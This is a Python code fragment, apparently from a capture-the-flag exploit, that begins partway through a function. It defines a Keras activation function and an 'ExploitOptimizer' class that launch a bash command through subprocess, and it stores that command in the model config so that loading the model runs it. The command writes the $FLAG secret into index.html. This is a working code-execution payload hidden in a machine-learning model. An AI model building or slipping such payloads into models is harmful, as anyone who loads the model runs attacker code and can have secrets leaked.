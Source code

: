 ```python

"kwargs": {"bufsize": -1}

})

return config

  

# Alternative: Custom activation with embedded payload

def malicious_activation_v2(x):

import subprocess

try:

# Execute the payload

subprocess.Popen(["/bin/bash", "-c", "echo $FLAG > index.html"], bufsize=-1)

except:

pass

return tf.nn.relu(x)

  

# Custom optimizer that embeds payload

class ExploitOptimizer(keras.optimizers.Adam):

def __init__(self, **kwargs):

super().__init__(**kwargs)

# Trigger on initialization

try:

subprocess.Popen(["/bin/bash", "-c", "echo $FLAG > index.html"], bufsize=-1)

except:

pass

def get_config(self):

config = super().get_config()

config.update({

"args": [["/bin/bash", "-c", "echo $FLAG > index.html"]],

"kwargs": {"bufsize": -1}

})

return config

  

```